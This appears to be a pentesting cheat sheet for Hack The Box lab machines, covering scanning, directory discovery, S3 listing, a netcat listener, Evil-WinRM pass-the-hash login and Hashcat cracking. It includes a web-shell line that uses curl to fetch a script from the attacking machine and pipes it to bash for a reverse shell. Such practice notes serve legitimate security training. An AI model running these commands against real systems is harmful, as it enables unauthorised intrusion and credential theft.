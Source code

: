 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```

### 🔐 Evil-WinRM Access
```bash
evil-winrm -i administrator.htb -u administrator -H <NTLM_hash>   # Login using NTLM hash
evil-winrm -i administrator.htb -u administrator -p <password>    # Login using password

### 🔓 Cracking Hashes with Hashcat
```bash
# Auto-detect hash mode (not recommended for reliability)
hashcat -a 0 hash.txt /home/kali/Documents/rockyou.txt

# Specified mode (Apache $apr1$ MD5)
hashcat -m 1600 -a 0 hash.txt /home/kali/Documents/rockyou.txt
```